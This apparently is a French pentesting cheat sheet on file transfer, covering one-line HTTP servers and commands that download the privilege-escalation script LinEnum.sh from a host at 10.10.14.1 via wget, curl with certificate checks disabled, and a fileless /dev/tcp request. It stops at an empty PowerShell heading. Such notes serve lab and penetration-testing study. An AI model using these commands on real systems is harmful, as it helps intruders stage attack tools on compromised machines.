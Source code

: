 Python3

```bash
python3 -m http.server 8000
```

variante HTTPS (possible de download également) [[DATA TRANSFER#SSL pour chiffrer la communication]]

Python2.7

```shell
python2.7 -m SimpleHTTPServer
```

Php

```shell
php -S 0.0.0.0:8000
```

Ruby

```sh
ruby -run -ehttpd . -p8000
```

## File download

### BASH

```BASH
wget http://10.10.14.1:8000/linenum.sh -o linenum.sh --no-check-certificate
```

```BASH
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh --insecure
```

## /dev/tcp (bash 2.04+) (Fileless)

Connexion a la target

```shell
exec 3<>/dev/tcp/10.10.10.32/80
```

Get request

```shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

Print response

```shell
cat <&3
```

### POWERSHELL
